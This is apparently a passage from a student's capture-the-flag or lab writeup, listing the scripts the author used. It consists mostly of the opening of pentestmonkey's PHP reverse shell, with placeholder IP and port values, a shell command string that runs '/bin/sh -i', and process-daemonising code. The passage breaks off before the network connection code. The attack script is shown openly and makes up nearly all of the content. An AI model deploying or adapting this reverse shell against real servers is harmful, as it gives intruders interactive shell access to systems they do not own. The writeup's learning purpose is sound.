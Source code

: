 * I will be skipping the parts of writeups where they state how to do privilage escalation and get root access in the hopes of doing so myself later when we learn how to do it.

<br/><br/>

### <span class="helpmach subtitle">Scripts I Used 

1. <span class="helpmach">The PHP Reverse Shell</span>  
   I used pentestmonkey's reverse shell code   
      ```php
      <?php

      set_time_limit (0);
      $VERSION = "1.0";
      $ip = '127.0.0.1';  // CHANGE THIS
      $port = 1234;       // CHANGE THIS
      $chunk_size = 1400;
      $write_a = null;
      $error_a = null;
      $shell = 'uname -a; w; id; /bin/sh -i';
      $daemon = 0;
      $debug = 0;

      //
      // Daemonise ourself if possible to avoid zombies later
      //

      // pcntl_fork is hardly ever available, but will allow us to daemonise
      // our php process and avoid zombies.  Worth a try...
      if (function_exists('pcntl_fork')) {
      	// Fork and have the parent process exit
      	$pid = pcntl_fork();
      	
      	if ($pid == -1) {
      		printit("ERROR: Can't fork");
      		exit(1);
      	}
      	
      	if ($pid) {
      		exit(0);  // Parent exits
      	}

      	// Make the current process a session leader
      	// Will only succeed if we forked
      	if (posix_setsid() == -1) {
      		printit("Error: Can't setsid()");
      		exit(1);
      	}

      	$daemon = 1;
      } else {
      	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
      }

      // Change to a safe directory
      chdir("/");
